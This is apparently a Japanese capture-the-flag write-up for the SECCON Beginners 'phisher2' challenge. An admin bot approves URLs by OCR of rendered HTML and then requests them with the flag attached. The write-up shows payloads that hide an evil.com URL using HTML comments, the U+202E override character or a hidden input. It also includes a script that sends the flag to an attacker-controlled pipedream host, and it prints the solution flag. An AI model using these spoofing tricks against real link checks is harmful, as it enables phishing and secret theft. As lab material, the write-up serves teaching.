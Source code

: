 # phisher2

目に見える文字が全てではないが、過去の攻撃は通用しないはずです。

あなたの作成したHTMLファイルでAdminを騙してみましょう！AdminはHTMLに含まれるURLのドメインを見て、安全なドメインならアクセスします。

app.pyはこのようになっています(一部抜粋)。ユーザが送信した文字列をHTMLとして保存し、Adminへ送信しています。

```py
@app.route("/", methods=["POST"])
def chall():
    try:
        text = request.json["text"]
    except Exception:
        return {"message": "text is required."}
    fileId = uuid.uuid4()
    file_path = f"/var/www/uploads/{fileId}.html"
    with open(file_path, "w", encoding="utf-8") as f:
        f.write(f'<p style="font-size:30px">{text}</p>')
    message, ocr_url, input_url = share2admin(text, fileId)
    os.remove(file_path)
    return {"message": message, "ocr_url": ocr_url, "input_url": input_url}

```

admin.pyはこのようになっています。先ほどのHTMLファイルを開いて、その中に含まれるURLを見て、安全なURLなら(フラグを送信しつつ)アクセスします。ここで、安全なURLとは`APP_URL`で指定されたURLのみです。

```py
import os
import re
import pyocr
import requests
from PIL import Image
from selenium import webdriver

APP_URL = os.getenv("APP_URL", "http://localhost:16161/")
FLAG = os.getenv("FLAG", "ctf4b{dummy_flag}")

# read text from image
def ocr(image_path: str):
    tool = pyocr.get_available_tools()[0]
    return tool.image_to_string(Image.open(image_path), lang="eng")


def openWebPage(fileId: str):
    try:
        chrome_options = webdriver.ChromeOptions()
        chrome_options.add_argument("--no-sandbox")
        chrome_options.add_argument("--headless")
        chrome_options.add_argument("--disable-gpu")
        chrome_options.add_argument("--disable-dev-shm-usage")
        chrome_options.add_argument("--window-size=1920,1080")
        driver = webdriver.Chrome(options=chrome_options)
        driver.implicitly_wait(10)
        url = f"file:///var/www/uploads/{fileId}.html"
        driver.get(url)

        image_path = f"./images/{fileId}.png"
        driver.save_screenshot(image_path)
        driver.quit()
        text = ocr(image_path)
        os.remove(image_path)
        return text
    except Exception:
        return None


def find_url_in_text(text: str):
    result = re.search(r"https?://[\w/:&\?\.=]+", text)
    if result is None:
        return ""
    else:
        return result.group()


def share2admin(input_text: str, fileId: str):
    # admin opens the HTML file in a browser...
    ocr_text = openWebPage(fileId)
    if ocr_text is None:
        return "admin: Sorry, internal server error."

    # If there's a URL in the text, I'd like to open it.
    ocr_url = find_url_in_text(ocr_text)
    input_url = find_url_in_text(input_text)

    # not to open dangerous url
    if not ocr_url.startswith(APP_URL):
        return "admin: It's not url or safe url.", ocr_url, input_text

    try:
        # It seems safe url, therefore let's open the web page.
        requests.get(f"{input_url}?flag={FLAG}")
    except Exception:
        return "admin: I could not open that inner link.", ocr_url, input_text
    return "admin: Very good web site. Thanks for sharing!", ocr_url, input_text
```

ただし、URLに特殊な文字は使用できません。

```py
def find_url_in_text(text: str):
    result = re.search(r"https?://[\w/:&\?\.=]+", text)
    if result is None:
        return ""
    else:
        return result.group()
```

そこで、以下の文字列を作成することを目標とします。

* ユーザの入力した文字列と、HTML上で表示される文字列が異なる
* `find_url_in_text`を使用した時にURLが正しく抽出される(=`input_url`, `ocr_url`ともにURLが含まれる)

このような文字列を作成する手段として2つ紹介します。

## コメントアウトを使用する方法

```html
<!--http://evil.com-->https://phisher2.beginners.seccon.games/
```

この場合、OCRをするとコメントアウトされた箇所は表示されず、`ocr_url`は`https://phisher2.beginners.seccon.games/`になります。また、`input_url`は最初に現れるURLなので、`http://evil.com`になります。

## 表示方向の制御文字を使用する方法

```html
‮http://evil.com/semag.nocces.srennigeb.2rehsihp//:sptth
```
先頭に[U+202E]を入れた場合、OCRすると文字の左右が反転するため、`ocr_url`は`https://phisher2.beginners.seccon.games/moc.live//:ptth`になります。また、`input_url`は先頭の[U+202E]が無視されるため、`http://evil.com/semag.nocces.srennigeb.2rehsihp//:sptth`になります。

## hidden inputを使用する方法

`type=hidden`を用いた方法です。似たようなものとして、CSSを使うなどの方法もあります。

```html
<input type="hidden" value="http://evil.com" />https://phisher2.beginners.seccon.games/
```

## 攻撃方法のまとめ

Adminからのリクエストを受け取るサーバを用意して、そちらにフラグを送信します。個人でサーバを用意しても良いですが、[pipedream](https://pipedream.com/)などを使用するとお手軽に用意することができます。

```py
import requests
import json
import os
def attack():
    ENDPOINT = "https://phisher2.beginners.seccon.games"

    text = "‮https://{YOUR_PIPEDREAM_DOMAIN}.m.pipedream.net/{ENDPOINT[::-1]}"
    res = requests.post(f"{ENDPOINT}", json={"text": text}).text
    message = json.loads(res)["message"]
    if message != "admin: Very good web site. Thanks for sharing!":
        raise ValueError(f"ERROR {message}")
```

すると、このようなリクエストが飛んできます(一部加工をしています)。

![pipedream](./writeup.png)

よってフラグはこのようになります。

`ctf4b{w451t4c4t154w?}`
